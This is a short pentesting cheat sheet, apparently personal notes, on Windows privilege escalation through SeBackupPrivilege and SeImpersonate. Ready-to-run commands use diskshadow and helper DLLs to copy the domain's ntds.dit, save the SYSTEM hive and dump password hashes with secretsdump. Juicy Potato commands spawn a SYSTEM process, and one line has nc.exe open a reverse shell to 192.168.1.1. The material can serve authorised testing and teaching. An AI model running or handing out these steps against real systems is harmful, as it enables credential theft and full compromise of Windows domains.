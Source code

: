 {% embed url="https://github.com/giuliano108/SeBackupPrivilege" %}

```
# on kali
nano pwn.dsh
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
unix2dos pwn.dsh

# on victim
cd C:\Temp
upload pwn.dsh
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
diskshadow /s pwn.dsh

Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system

# on kali
impacket-secretsdump -ntds ntds.dit -system system local
```

## SeImpersonateToken

SeImpersonateToken or SeAssignPrimaryToken - Enabled

{% embed url="https://jlajara.gitlab.io/Potatoes_Windows_Privesc" %}

### Exploiting with Juicy Potato

[http://ohpe.it/juicy-potato/\
http://ohpe.it/juicy-potato/CLSID\
https://github.com/ivanitlearning/Juicy-Potato-x86/releases](http://ohpe.it/juicy-potato/http://ohpe.it/juicy-potato/CLSIDhttps:/github.com/ivanitlearning/Juicy-Potato-x86/releases)

We need to specify CLSID value with systeminfo. It changes with Windows versions.

```
LocalService CLSID
BITS	{4991d34b-80a1-4291-83b6-3328366b9097}	NT AUTHORITY\SYSTEM

Checking...
JuicyPotatox86.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
[+] CreateProcessWithTokenW OK

JuicyPotatox86.exe -l 1337 -p C:\windows\temp\nc.exe -a "-e cmd 192.168.1.1 80" -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```
